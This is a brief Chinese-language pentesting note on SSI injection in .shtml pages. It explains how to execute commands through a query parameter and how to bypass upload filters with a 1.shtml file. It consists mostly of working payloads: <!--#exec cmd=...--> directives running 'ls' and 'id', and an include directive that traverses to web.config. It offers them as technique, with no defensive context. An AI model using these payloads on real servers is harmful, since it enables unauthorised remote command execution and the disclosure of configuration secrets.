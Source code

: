 

shtml是一种特殊的html。需要运行在支持SSI的服务器，如apache。简单来说就是能根据命令动态回显网页的某个部分，比如时间。
可以注入，用来远程命令执行。 格式：  
```
?username=<!--#exec cmd="命令"-->

?username=<!--#exec cmd="ls"-->

ssi:<--#include file="..\..\web.config" -->
```

^
## **shtml文件上传**
在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用<!--#exec cmd="id" -->语法执行任意命令。

文件名：1.shtml
文件内容
```
<!--#exec cmd="ls /" -->
```
